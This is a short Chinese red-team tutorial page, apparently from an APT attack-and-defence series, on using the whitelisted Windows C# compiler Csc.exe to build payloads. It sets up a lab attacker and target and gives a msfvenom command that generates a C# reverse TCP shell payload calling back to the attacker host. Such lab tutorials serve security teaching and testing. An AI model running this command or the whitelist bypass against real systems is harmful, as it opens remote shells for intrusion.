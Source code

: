 # 专注APT攻击与防御
https://micropoor.blogspot.com/

**注：**请多喝点热水或者凉白开，身体特别重要。

**Csc.exe简介：**

C#的在Windows平台下的编译器名称是Csc.exe，如果你的.NET FrameWork SDK安装在C盘，那么你可以在C:\WINNT\Microsoft.NET\Framework\xxxxx目录中发现它。为了使用方便，你可以手动把这个目录添加到Path环境变量中去。用Csc.exe编译HelloWorld.cs非常简单，打开命令提示符，并切换到存放
test.cs文件的目录中，输入下列行命令:csc /target:exe test.cs 将Ttest.cs编译成名为test.exe的console应用程序

**说明：**Csc.exe所在路径没有被系统添加PATH环境变量中，因此，csc命令无法识别。

**基于白名单Csc.exe配置payload：**

Windows 7 默认位置：
`C:\Windows\Microsoft.NET\Framework64\v2.0.50727\csc.exe
C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe`

**攻击机：**192.168.1.4 Debian
**靶机：**192.168.1.5 Windows 7

**配置攻击机msf：**
![](media/11038c8eb1bb179e7f838fd9cacc18bc.jpg)

**配置payload：**
`msfvenom ‐p windows/x64/shell/reverse_tcp LHOST=192.168.1.4 LPORT=53 ‐ f csharp`